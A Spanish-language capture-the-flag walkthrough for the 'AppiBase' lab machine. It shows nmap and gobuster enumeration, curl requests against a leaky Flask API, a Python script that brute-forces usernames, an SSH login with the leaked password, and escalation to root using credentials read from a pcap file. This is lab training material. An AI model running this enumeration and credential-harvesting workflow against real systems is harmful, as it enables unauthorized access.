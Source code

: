 - Tags: #AppiBAse
---
[Maquina AppiBase](https://mega.nz/file/KI0AFDYD#wAyZndNb3xIfY1C3y0Bpmlh4SthcZLyZd7iUyXnEMWs) -> Enlace de descarga al laboratorio

```bash
7z x apibase.zip # Descomprimimos el archivo
sudo bash auto_deploy.sh apibase.tar # Desplegamos el laboratorio
```

### Fase Reconocimiento:
```bash
172.17.0.2 # Direccion IP del target
ping -c 1 172.17.0.2 # Lanzamos una traza ICMP para determinar si tenemos conexion con el target

wichSystem.py 172.17.0.2 # Determinamos que estamos ante una maquina linux
172.17.0.2 (ttl -> 64): Linux
```

### Fase Enumeracion Puertos:
```bash
escanerTCP.py -t 172.17.0.2 -p 1-10000 # Usamos nuestra herramienta para la deteccion de puertos
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG allPorts
extractPorts allPorts # Parseamos la informacion mas relevante del primer escaneo
nmap -sC -sV -p22,5000 172.17.0.2 -oN targeted # Realizamos un escaneo exhaustivo para determinar los servicios y la versiones para estos puertos.
```

**( 22/tcp   open  ssh     OpenSSH 8.4p1 Debian 5+deb11u4 (protocol 2.0) )** -> Tenemos el servicio **ssh** expuesto
**( 5000/tcp open  http    Werkzeug httpd 1.0.1 (Python 3.9.2) )** -> Tenemos este servicio web expuesto con python: **Werkzeug/1.0.1 Python/3.9.2**
**( Werkzeug )** -> Werkzeug es una **biblioteca en Python** que ofrece herramientas para el desarrollo de aplicaciones web compatibles con el estándar **WSGI (Web Server Gateway Interface).** En esencia, es una colección de utilidades que facilita la creación de aplicaciones web, incluso sin necesidad de un framework completo como Flask o Django

### Fase Enumeracion Web:
```bash
whatweb http://172.17.0.2:5000 # Nos reporta las tecnologias que usa este servicio
nmap --script http-enum -p 5000 172.17.0.2 # No reporta nada critico
```

```bash
gobuster dir -u http://172.17.0.2:5000/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 20 -x php,php.back,css,html,js,py,txt # Filtramos por extensiones

# Obtenemos dos rutas posibles
/add                  (Status: 405) [Size: 178]
/console              (Status: 400) [Size: 192]
```

**( http://172.17.0.2:5000/ )** -> Tendremos que interceptar la peticion para poder analizar esta **API**
**( Method Not Allowed )** -> El error **"Method Not Allowed"** en una API de Flask ocurre cuando intentas acceder a un endpoint utilizando un método HTTP no permitido (por ejemplo, GET cuando el endpoint solo acepta POST, o viceversa).

```bash
curl -X POST http://172.17.0.2:5000/add # Lanzamos una peticion por curl para ver como reacciona la web desde terminal,
```

```bash
curl -s -X POST http://172.17.0.2:5000/add \ # Intentamos crear un nuevo usuario.
-d "username=test" \
-d "email=test@test.com" \
-d "password=test123"

# Respuesta del servidor.
{
  "message": "User added"
}
```

```bash
curl -s X POST http://172.17.0.2:5000/users?username=test | jq # Verificamos la correcta creacion del usuario.

# Respuesta del servidor.
[
  [
    3,
    "test",
    "test123"
  ]
]
```

**Nota:** -> Creamos un script que aplique fuerza bruta para descubrir usuarios:

```python
#!/usr/bin/env python3

from termcolor import colored as c
import requests

API_URL = "http://172.17.0.2:5000/users"  # Endpoint de la API

def load_usernames(file_path):
    try:
        with open(file_path, 'r') as file:
            for line in file:
                yield line.strip()  # Generador para manejar listas grandes
    except FileNotFoundError:
        print(c(f"\n[-] Archivo no encontrado: {file_path}\n", "red"))
        return

def check_user(username):
    try:
        params = {"username": username}
        response = requests.get(API_URL, params=params, timeout=5)
        
        # Verificar si el usuario existe (depende de la respuesta de la API)
        if response.status_code == 200:
            if "Error: User not found" not in response.text:
                print(c(f"[+] Usuario válido encontrado: {username}", "green"))
                return True
        else:
            pass
            #print(c(f"[!] Error HTTP: {response.status_code}", "yellow"))
            
    except requests.exceptions.RequestException as e:
        print(c(f"[!] Error de conexión: {e}", "red"))
    return False

def main():
    file_path = "xato-net-10-million-usernames.txt"
    
    valid_users = 0
    try:
        for i, username in enumerate(load_usernames(file_path), 1):
            if check_user(username):
                valid_users += 1
                
            # Mostrar progreso cada 1000 intentos
            if i % 1000 == 0:
                print(c(f"\n[*] Progreso: {i} usuarios probados | Válidos: {valid_users}\n", "blue"))
                
    except KeyboardInterrupt:
        print(c("\n[!] Scaneo detenido por el usuario", "red"))
    
    print(c(f"\n[+] Total de usuarios válidos encontrados: {valid_users}\n", "green"))

if __name__ == '__main__':
    main()
```

```bash
[+] Usuario válido encontrado: pingu

curl -s X POST http://172.17.0.2:5000/users?username=pingu | jq # aplicamos esta peticion:

[
  [
    1,
    "pingu",
    "your_password"
  ],
  [
    2,
    "pingu",
    "pinguinasio"
  ]
]
```

### Fase Intrusion:
Ahora con estas credenciales nos intentaremso conectar por **ssh**
```bash
ssh-keygen -R 172.17.0.2 && ssh pingu@172.17.0.2 # Nos logueamos con esta password: ( pinguinasio )

```

### Fase Escalada Privilegios:
```bash
/home # En esta ruta tenemos archivos con credenciales de acceso.

cat network.pcap 
�ò����&�gVF((E(@"���P .�&�g@G((E(@O��P [�&�g�G((E(@"���P .�&�g3H33E3@"���P aRLOGIN root
&�g
   I66E6@"���P ��PASS balulero
&�g�I66E6@O��P ��Access Denied
```

```bash
su root # La contrasena es ( balulero )
```